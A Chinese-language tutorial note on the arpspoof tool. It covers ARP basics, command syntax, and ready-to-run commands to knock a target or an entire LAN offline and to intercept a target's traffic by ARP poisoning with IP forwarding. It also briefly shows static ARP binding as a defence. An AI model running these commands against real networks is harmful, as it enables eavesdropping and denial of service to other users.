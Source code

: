 # arpspoof

地址解析协议，即ARP（Address Resolution Protocol），是根据IP地址 获取物理地址（MAC地址）的一个TCP/IP协议。

主机发送信息时将包含目标IP地址的ARP请求广播到局域网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。

地址解析协议是建立在网络中各个主机互相信任的基础上的，局域网络上的主机可以自主发送ARP应答消息，其他主机收到应答报文时不会检测该报文的真实性就会将其记入本机ARP缓存；


## 语法

arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

## 参数

-t target  指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机
host  host是你想要截获数据包的主机 (通常是网关)。
-i interface  指定要使用的接口（即指定一块网卡）
-r 捕获两个方向的网络流量, 默认只捕获target到host的流量

使用 `ip a`来查看网卡名称 

## 使用

`arpspoof -i eth0 -t 192.168.31.45  192.168.31.1`
-i 指定网卡
-t 目标哦主机
host 网关
这个命令的含义是获取目标主机发给网关的包

## 应用
### 让目标主机断网
截获目标主机发给网关的信息
`arpspoof -i eth0 -t 192.168.31.45  192.168.31.1`
### 截取目标主机信息
```sh
## 开启本机的转发功能 1表示开启, 0表示关闭
echo 1 > /proc/sys/net/ipv4/ip_forward 
arpspoof -i eth0 -t 192.168.31.45 -r 192.168.31.1
```
### 让整个个局域网断网
不用-t参数，那它就是指针对所有的主机发起欺骗, 让所有其他主机不能上网, 这时只要自己不被欺骗就可以独享网络.
`arpspoof -i eth0 网关IP`


### 防范中间人欺骗
arp欺骗攻击就是通过改变主机的映射表，即原来192.168.1.1指向的mac地址是a-b-c-d, 而有人在局域网内喊话说192.168.1.1是a-a-a-a 那你的电脑收到后就会改变

```sh
arp -a  # 查看arp缓存表, 可以看到iP和MAC是动态的
arp -s  192.168.31.1   ec-41-18-49-d4-30  # 静态绑定
```

## 参考

1. https://blog.csdn.net/qq_54780911/article/details/121891827
2. https://blog.csdn.net/qq_54780911/article/details/121957519
